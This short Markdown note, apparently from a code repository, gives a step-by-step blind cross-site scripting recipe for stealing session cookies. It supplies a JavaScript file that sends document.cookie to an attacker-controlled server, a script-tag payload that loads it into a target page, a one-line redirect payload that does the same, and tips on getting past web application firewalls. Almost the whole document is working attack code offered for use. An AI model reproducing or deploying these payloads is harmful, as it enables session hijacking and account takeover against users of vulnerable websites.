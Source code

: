 # Blind xss cookie stealing
### 1. Host a temorary http server(attacker server) with below file and paste the below code inside as cookie.js

var request = new XMLHttpRequest();<br/>
request.open('GET', 'http://attacker-server-ip/?test='+document.cookie, true);<br/>
request.send()<br/>

### 2. Submit a payload which will render the above script
``` <script src="http://attacker-server-ip/cookie.js"></script> ```
Try to bypass the filters if there is any WAF

### 3. You will receive cookie on attacker-server

### Directly stealing the cookie(this may or may not work and try it with single quote & double quote and also bypass filter protection if WAF exist)
```<script>document.location='http://attacker-ip/?c='+document.cookie</script>```
